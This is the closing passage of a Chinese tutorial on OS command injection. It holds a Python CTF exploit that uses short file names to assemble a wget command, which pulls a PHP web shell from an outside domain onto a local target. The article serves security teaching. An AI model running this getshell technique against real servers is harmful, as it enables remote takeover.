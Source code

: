 下面的脚本是在 phith0n 的基础上改的 python3 版本，通过运行脚本尝试 getshell 操作，这里的 fileNames 中的域名信息需要按需进行替换：

```bash
#!/usr/bin/python3
# -*- coding: utf-8 -*-

import requests

def GetShell():
    url = "http://127.0.0.1/ctf.php?1="
    fileNames = ["a.php", "-O\\ \\", "cn\\ \\", "\\ liuwei.\\", "wget\\"]

    for fileName in fileNames:
        createFileUrl = url + ">" + fileName
        print(createFileUrl)
        requests.get(createFileUrl)

    getShUrl = url + "ls -t>1"
    print(getShUrl)
    requests.get(getShUrl)
    getShellUrl = url + "sh 1"
    print(getShellUrl)
    requests.get(getShellUrl)

    shellUrl = "http://127.0.0.1/1.php"
    response = requests.get(shellUrl)
    if response.status_code == 200:
        print("[*] Get shell!")
    else:
        print("[*] fail!")

if __name__ == "__main__":
    GetShell()
```

脚本运行结果如下 (需要注意的是目标的环境得是 Linux 环境哦，不然没得 sh 命令的哇)：

[![](assets/1708998334-268551d9d06adc9d2441c15c53301fee.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240224144030-9a42be62-d2df-1.png)

### 文末小结

本篇文章对命令注入的类型、注入的检测方式、盲注的利用思路以及命令注入的绕过方式进行了介绍，最后通过靶场案例以及 CTF 示例对相关技巧的利用进行了演示，当然也有很多其他的技巧有待发现，攻防互促进步~

### 参考链接

[https://mp.weixin.qq.com/s/itToKY5OyfytgN1a3XKzKQ](https://mp.weixin.qq.com/s/itToKY5OyfytgN1a3XKzKQ)  
[https://portswigger.net/web-security/os-command-injection](https://portswigger.net/web-security/os-command-injection)
